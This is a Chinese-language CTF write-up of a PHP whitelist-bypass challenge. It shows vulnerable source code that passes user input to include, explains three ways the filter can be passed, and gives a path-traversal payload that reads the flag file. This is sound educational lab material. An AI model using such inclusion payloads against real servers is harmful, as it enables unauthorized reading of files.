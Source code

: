 首先根据页面源码提示找到 `source.php`

![屏幕截图 2025-10-05 154003](D:\Documents\Pictures\Screenshots\屏幕截图 2025-10-05 154003.png)

访问后显示页面源码如下

```php
<?php
    highlight_file(__FILE__);
    class emmm
    {
        public static function checkFile(&$page)
        {
            $whitelist = ["source"=>"source.php","hint"=>"hint.php"];
            if (! isset($page) || !is_string($page)) {
                echo "you can't see it";
                return false;
            }

            if (in_array($page, $whitelist)) {
                return true;
            }

            $_page = mb_substr(
                $page,
                0,
                mb_strpos($page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }

            $_page = urldecode($page);
            $_page = mb_substr(
                $_page,
                0,
                mb_strpos($_page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }
            echo "you can't see it";
            return false;
        }
    }

    if (! empty($_REQUEST['file'])
        && is_string($_REQUEST['file'])
        && emmm::checkFile($_REQUEST['file'])
    ) {
        include $_REQUEST['file'];
        exit;
    } else {
        echo "<br><img src=\"https://i.loli.net/2018/11/01/5bdb0d93dc794.jpg\" />";
    }  
?>
```

`$_REQUEST['file']` 默认包含了 `$_GET`、`$_POST` 和 `$_COOKIE` 的内容

最后是要绕过过滤执行 `include $_REQUEST['file'];`

源码使用了白名单过滤

```php
<?php
$whitelist = ["source"=>"source.php","hint"=>"hint.php"];
if (! isset($page) || !is_string($page)) {
    echo "you can't see it";
    return false;
}

if (in_array($page, $whitelist)) {
    return true;
}
```

看到有 `hint.php`，访问得到hint，猜测flag文件名为 `ffffllllaaaagggg`

```
flag not here, and flag in ffffllllaaaagggg
```

整个过滤要求传参为字符串（存储在 `$page` 中），满足以下任意条件即可通过：

1. `$page == "source.php"` 或 `"hint.php"`

2. `$page` 以 `source.php?` 或 `hint.php?` 开头

3. `urldecode($page)` 以 `source.php?` 或 `hint.php?` 开头

因此 `payload` 如下（工作目录下没找到，依次往上级目录查找，最终在根目录下找到）

??? note inline end

    为什么 `../../../` 抵达的是根目录？
    
    因为web服务的工作目录一般位于/var/www/html/

```
file=source.php?/../../../../ffffllllaaaagggg
```

其中 `include` 在linux下会将 `source.php?` 视为一个目录（因为linux下目录命名可含 `'?'`，但windows下不行，所以无法在windows下复现，因为 `include` 底层调用的是操作系统api来检查文件存在性的），`source.php?/../` 等效于 `./` 

注意，这是 `include` 的路径规约（clear/normalize）特性，详见 [include路径解析](articles/php_include_path_analysis.md)，而你如果在shell中访问 `source.php?/../` 这样一段路径，操作系统会先检查 `source.php?` 目录是否存在，若不存在会直接报错

___



<p style="text-align: right;">
by. Spark0618
</p>
